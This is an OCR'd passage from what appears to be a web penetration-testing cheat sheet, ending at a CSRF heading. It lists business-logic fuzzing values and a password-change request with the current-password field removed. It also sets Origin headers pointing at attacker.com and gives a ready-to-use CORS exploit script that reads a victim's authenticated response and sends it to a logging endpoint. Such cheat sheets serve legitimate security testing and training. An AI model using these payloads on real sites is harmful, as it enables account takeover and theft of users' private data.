 ### Business Logic Exploits

```bash
# Fuzzing Paramters
productId=-1
productId=a
productId=
price=-1000
price=1000-
price=%1000
price=%-1000
email=super_long_email_here_...@attacker.com

# Removing Parameters
POST /change-password HTTP/1.1
...
# Remove 'current-password' parameter
username=admin&new-password-1=newpass&new-password-2=newpass
```

### Cross-Origin Resource Sharing (CORS)

>   CORS is a mechanism that allows restricted resources on a web page to be requested from another domain outside the domain from which the first resource was served. 

```bash
# Change Origin Value of Request Header
Origin: https://attacker.com
Origin: https://vulnerable.com.attacker.com
Origin: null

# Check if Response Allows Cross-Origin
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Origin: https://vulnerable.com.attacker.com
Access-Control-Allow-Origin: null

# Craft Malicious Web Page
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET', 'https://vulnerable.com/', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = '/log?key=' + this.responseText;
    }
</script>
```

### Cross-Side Request Forgery (CSRF)
